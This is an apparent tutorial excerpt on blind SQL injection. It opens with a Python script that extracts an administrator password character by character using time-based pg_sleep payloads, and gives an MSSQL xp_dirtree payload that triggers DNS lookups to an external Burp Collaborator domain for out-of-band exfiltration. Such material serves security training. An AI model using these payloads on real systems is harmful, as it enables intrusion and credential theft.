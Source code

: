 ```python
    extracted_password = ""
    chars = "abcdefghijklmnopqrstuvwxyz0123456789-_"

    for pos in range(1, 21):
        for char in chars:
            payload = f"'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,{pos},1)='{char}')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--"
            time = getTime(payload)
            if time > 1.5:
                print(f"Found character '{char}' at position {pos}")
                extracted_password += char
                break
    return extracted_password

password = extractPassword()
print(password)
```

## Exploiting blind SQL injection using out-of-band (OAST) techniques

An application might carry out the same SQL query as the previous example but do it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, but none of the techniques described so far will work. The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. These can be triggered based on an injected condition to infer information one piece at a time. More usefully, data can be exfiltrated directly within the network interaction.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). Many production networks allow free egress of DNS queries, because they're essential for the normal operation of production systems.

The easiest and most reliable tool for using out-of-band techniques is Burp Collaborator. This is a server that provides custom implementations of various network services, including DNS. It allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Burp Suite Professional includes a built-in client that's configured to work with Burp Collaborator right out of the box. For more information, see the documentation for Burp Collaborator.

The techniques for triggering a DNS query are specific to the type of database being used. For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--

This causes the database to perform a lookup for the following domain:
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net

You can use Burp Collaborator to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur. 

